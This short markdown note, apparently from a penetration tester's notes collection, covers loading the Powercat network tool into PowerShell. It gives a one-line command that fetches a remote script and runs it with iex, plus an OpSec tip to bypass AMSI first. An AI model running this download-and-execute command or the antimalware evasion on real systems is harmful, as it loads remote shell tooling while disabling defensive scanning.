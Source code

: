 ```yaml
---
title: Powercat
---
```


Project: [github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)

# Setup

Load into PowerShell.

~~~ powershell
iwr https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1 | iex
powercat -h
~~~

> **OpSec**: [[notes/windows/amsi]] before loading Powercat.
